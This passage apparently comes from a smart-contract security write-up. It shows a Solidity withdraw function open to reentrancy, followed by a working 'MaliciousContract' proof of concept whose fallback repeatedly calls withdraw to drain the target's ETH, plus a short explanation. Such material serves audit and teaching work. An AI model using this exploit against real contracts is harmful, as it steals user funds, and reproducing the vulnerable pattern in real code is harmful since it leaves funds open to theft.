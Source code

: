 ```solidity
        for (uint256 i = 0; i < coffer.numberOfSlots; ++i) {
            amountToSend += coffer.slots[i];
        }
        coffer.numberOfSlots = 0;
        (bool success,) = msg.sender.call{value: amountToSend}("");
        require(success, "Transfer failed");
    }
}

contract MaliciousContract {
    Coffers coffers;
 
    constructor(address _coffersAddress) {
        coffers = Coffers(_coffersAddress);
    }
 
    function attack() external payable {
        // Deposit some ETH to trigger the attack
        coffers.deposit(address(this), 0, {value: msg.value});
 
        // Call the withdraw function to initiate the reentrancy attack
        coffers.withdraw(0);
    }
 
    // Fallback function to receive ETH
    fallback() external payable {
        // Reenter the withdraw function
        if (address(coffers).balance >= 0.01 ether) {
            coffers.withdraw(0);
        }
    }
 
    // Function to check the contract's ETH balance
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

```

In this POC example, we created a malicious contract named MaliciousContract. By calling the attack function, we deposit ETH into the contract and trigger the attack. In the malicious contract's fallback function, it repeatedly calls the withdraw function, extracting funds from the attacked contract. Since the target contract lacks measures to prevent reentrancy attacks, the attacker can call the withdraw function again before a withdrawal is completed, thus repeatedly extracting funds and ultimately depleting all ETH in the contract.

Please note that this POC is for demonstration purposes only and should only be used on test networks. In real-world scenarios, ensure your contracts undergo comprehensive security audits and implement appropriate defensive measures to safeguard contract and user funds.

### Test7
